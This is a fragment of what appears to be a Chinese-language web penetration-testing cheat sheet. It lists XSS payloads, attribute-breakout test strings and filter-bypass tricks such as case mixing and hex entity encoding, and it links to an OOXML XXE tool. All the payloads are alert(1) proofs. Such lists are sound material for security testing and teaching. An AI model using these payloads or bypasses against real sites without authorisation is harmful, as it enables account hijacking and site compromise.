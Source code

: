 ## 其它

- DOCX
- XLSX
- PPTX
- PDF
- https://github.com/BuffaloWill/oxml_xxe

# XSS

## Basic Payload

- `<script>alert(1)</script>`
- `<svg/onload=alert(1)>`
- `<img src=# onerror=alert(1)>`
- `<a href="javascript:alert(1)">g</a>`
- `<input type="text" value="g" onmouseover="alert(1)" />`
- `<iframe src="javascript:alert(1)"></iframe>`
- ...

## Testing

- `<script>alert(1)</script>`
- `'"><script>alert(1)</script>`
- `<img/src=@ onerror=alert(1)/>`
- `'"><img/src=@ onerror=alert(1)/>`
- `' onmouseover=alert(1) x='`
- `" onmouseover=alert(1) x="`
- ``` `onmouseover=alert(1) x=` ```
- `javascript:alert(1)//`
- ....

## 绕过

- `//`(javascript注解)被过滤时，可以利用算数运算符代替
    - `<a href="javascript:alert(1)-abcde">xss</a>`
- HTML特性
    - 不分大小写
        - `<ScRipT>`
        - `<img SrC=#>`
    - 属性值
        - `src="#"`
        - `src='#'`
        - `src=#`
        - ```src=`#` ``` (IE)
- 编码绕过
    - `<svg/onload=alert(1)>`
        - `<svg/onload=&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;>` (16进制) (分号可去掉)
- 绕空白
    - `<img/src='1'/onerror=alert(0)>`
## 其他
